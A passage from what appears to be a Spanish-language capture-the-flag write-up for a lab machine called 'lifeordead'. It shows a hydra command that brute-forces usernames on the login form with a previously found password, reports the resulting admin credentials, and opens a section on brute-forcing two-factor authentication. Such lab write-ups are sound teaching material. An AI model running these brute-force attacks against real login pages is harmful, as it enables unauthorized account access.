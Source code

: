 ![Login](images/lifeordead/login.png)

Como anteriormente encontramos unas credenciales, probamos a tirar un ataque de `hydra` para buscar el usuario:

```css
hydra -L top-usernames-shortlist.txt -p PASSWORDADMINSUPERSECRET lifeordead.dl http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid credentials."
```

![Hydra](images/lifeordead/hydra.png)

como vemos en el resultado, tenemos las credenciales `admin:PASSWORDADMINSUPERSECRET`.

### Brute force 2fa

Al iniciar sesión, podemos ver un `2fa`:

![2fa](images/lifeordead/2fa.png)
